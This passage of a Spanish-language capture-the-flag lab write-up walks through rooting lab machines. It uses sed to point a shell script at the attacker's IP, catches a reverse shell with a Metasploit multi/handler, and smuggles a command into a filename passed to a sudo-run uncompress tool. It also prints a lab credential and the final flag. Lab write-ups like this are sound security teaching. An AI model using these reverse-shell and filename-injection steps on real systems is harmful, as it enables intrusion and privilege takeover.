 Con el comando sed podemos modificar el contenido para apuntar a (A)
```
sed s/10.0.2.5/10.1.0.8/g shell.sh
```
![[fig63.png]]
También nos aseguramos de que lo ejecute como sudo
![[fig64.png]]
Finalmente nuestro archivo shell.sh quedará así:
![[fig65.png]]
En (A) abrimos una nueva terminal y abrimos `msfconsole`, debemos escuchar la conexión en el puerto 8888. Para ello usamos multi/handler y payload linux/x64/shell_reverse_tcp. Configuramos las opciones como se muestra en la imagen:

![[fig66.png]]
Ejecutamos exploit
![[fig67.png]]\
### Escalada de Privilegios
Ahora en la víctima ejecutamos el comando “sudo /opt/uncompress ‘`bash shell.sh`.7z’
![[fig68.png]]
Ya tenemos la sesión y estamos como root.
![[fig69.png]]
Si nos dirigimos al directorio /root con el comando “cd /root” encontramos el archivo office.thl. Este contiene un usuario y contraseña
![[fig70.png]]
```
office:P4mDjcVfqrj7eEXBV7EX
```
## Reconocimiento - Ingresando al servidor de docker

En este caso, parece ser que que las credenciales obtenidas en el paso anterior no son de un FTP sino del SSH de 172.101.0.1. Para acceder ejecutamos el comando
```sh
ssh office@172.101.0.1
```

![[fig71.png]]
Una vez dentro, podemos consultar qué posibilidades de ejecutar como sudo tenemos. Vemos que este usuario tiene todos los permisos para ejecutar.
![[fig72.png]]
### Escalamiento de privilegios
Entonces ejecutamos “sudo su” e ingresamos la clave de office que conseguimos.
  ![[fig73.png]]
Al ejecutar el comando “docker ps” nos damos cuenta que la máquina es el servidor principal (V) y comprobamos que tiene los contenedores ejecutándose.
![[fig74.png]]
Finalmente nos dirigimos a la carpeta /root y tenemos el archivo que buscábamos.
![[fig75.png]]
```
flag{f73a64a82b4dbeaf43f308999c5b380f}
```
